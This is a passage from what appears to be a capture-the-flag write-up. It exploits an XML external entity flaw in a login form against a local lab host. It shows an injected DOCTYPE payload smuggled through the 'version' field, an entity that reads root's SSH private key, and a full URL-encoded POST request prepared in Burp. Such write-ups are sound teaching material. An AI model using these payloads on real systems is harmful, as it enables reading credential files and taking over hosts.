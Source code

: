 ```
 
```

In this template the variable `example` is the return value of a System read of the file `/etc/passwd` When this result is actually printed out , instead of John's last name, the contents of `/etc/passwd` are there. Given that this website is running as root, we essentially have root file read. Considering how chiv had a SSH key, I will try to read root's SSH key if it has one. Since `username` is the value being reflected to us, we should aim to set `username` to the contents of the key. Our XML should look like this

```
<!-- API Version 1.0.0 --> <!DOCTYPE root [<!ENTITY a SYSTEM 'file:///root/.ssh/id_rsa'>]> <!-- -->
<root>
    <data>
        <username>&a;</username>
        <is_admin>0</is_admin>
    </data>
</root>
```

To achieve this, we have to remember our 2 `POST` request values, `username`, and `version`. `version` is on the first line and gets closed by a comment by the server. So we have to prematurely close the comment in our `version` input, then insert the call to the SSH key, then reopen a comment for the system to automatically close it. Regarding `username`, all it has to be is a reference to the call to the SSH key, which is assigned to the variable `a`, so `username` would be `&a;`. Load up Burp, access the login page (make sure you logout of the website in case you already logged in before, so the cookies don't get messy), and intercept the login `POST` request. Configure it to look like this:

```
username=&a;
version=1.0.0 --> <!DOCTYPE root [<!ENTITY a SYSTEM 'file:///root/.ssh/id_rsa'>]> <!-- 
--------------------------------------------------POST REQUEST-----------------------------------------------------
POST /login HTTP/1.1
Host: 127.0.0.1
Content-Length: 109
Cache-Control: max-age=0
sec-ch-ua: " Not A;Brand";v="99", "Chromium";v="92"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJwb2ludHMiOjB9.YYBeAw.tCyjLgslZtrS5XjYXhIlNpYDgi0
Connection: close

username=%26a%3b&version=1.0.0+-->+<!DOCTYPE+root+[<!ENTITY+a+SYSTEM+'file%3a///root/.ssh/id_rsa'>]>+<!--
--------------------------------------------------END POST REQ-----------------------------------------------------
**NOTE THAT I URL ENCODED THE VALUES OF USERNAME AND VERSION
```

Doing this gets us this beautiful mess
